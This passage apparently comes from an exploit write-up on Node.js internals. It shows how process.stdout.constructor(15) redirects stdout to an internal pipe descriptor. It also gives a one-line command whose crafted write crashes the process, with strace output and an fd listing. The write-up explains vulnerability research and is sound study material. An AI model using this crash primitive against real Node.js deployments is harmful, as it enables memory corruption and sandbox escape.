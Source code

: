 `process.stdout.constructor` refers to [WriteStream](https://github.com/nodejs/node/blob/v20.9.0/lib/tty.js#L84). Calling this function with `15` indicates that we create a new `TTY` object with file descriptor set to `15`, and set this as stdout. This effectively changes all following stdout writes to write on fd `15` instead of the original fd `1`.

```js
// lib/tty.js#L84
function WriteStream(fd) {
  if (!(this instanceof WriteStream))
    return new WriteStream(fd);
  if (fd >> 0 !== fd || fd < 0)
    throw new ERR_INVALID_FD(fd);

  const ctx = {};
  const tty = new TTY(fd, ctx);
  if (ctx.code !== undefined) {
    throw new ERR_TTY_INIT_FAILED(ctx);
  }

  net.Socket.call(this, {
    readableHighWaterMark: 0,
    handle: tty,
    manualStart: true,
  });
```

We can verify this by strace:

```
$ strace node -e 'process.stdout.constructor(15); process.stdout.write(new Uint8Array(new BigUint64Array([0x133700000000n, 0x133812345678n]).buffer));'
// omitted
ioctl(15, TCGETS, 0x7ffcdd0a5380)       = -1 ENOTTY (Inappropriate ioctl for device)
fstat(15, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
fcntl(15, F_GETFL)                      = 0x801 (flags O_WRONLY|O_NONBLOCK)
ioctl(15, FIONBIO, [1])                 = 0
ioctl(15, FIONBIO, [0])                 = 0
ioctl(15, TIOCGWINSZ, 0x7ffcdd0a5708)   = -1 ENOTTY (Inappropriate ioctl for device)
write(15, "\0\0\0\0007\23\0\0xV4\228\23\0\0", 16) = 16
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

The constructor call results in fd `15` to be considered as stdout tty fd. It responds with `ENOTTY` on some tty-related ioctls but still continues fine until `process.stdout.write()` call sends the payload. This results in a segfault.

2. Identifying the segfault

To identify why we have crashed, we first check what fd `15` is. Below is a list of file descriptors for a reference Node.js process.

```text
$ ls -alF /proc/10530/fd/
total 0
dr-x------ 2 root root 28 Nov 22 03:54 ./
dr-xr-xr-x 9 root root  0 Nov 22 03:54 ../
lrwx------ 1 root root 64 Nov 22 03:54 0 -> /dev/pts/0
lrwx------ 1 root root 64 Nov 22 03:54 1 -> /dev/pts/0
lrwx------ 1 root root 64 Nov 22 03:54 10 -> 'anon_inode:[eventfd]'
lrwx------ 1 root root 64 Nov 22 03:54 11 -> 'anon_inode:[eventpoll]'
lrwx------ 1 root root 64 Nov 22 03:54 12 -> 'anon_inode:[io_uring]'
lrwx------ 1 root root 64 Nov 22 03:54 13 -> 'anon_inode:[io_uring]'
lr-x------ 1 root root 64 Nov 22 03:54 14 -> 'pipe:[117933]'
l-wx------ 1 root root 64 Nov 22 03:54 15 -> 'pipe:[117933]'
lrwx------ 1 root root 64 Nov 22 03:54 16 -> 'anon_inode:[eventfd]'
lrwx------ 1 root root 64 Nov 22 03:54 17 -> 'anon_inode:[eventpoll]'
lrwx------ 1 root root 64 Nov 22 03:54 18 -> 'anon_inode:[io_uring]'
```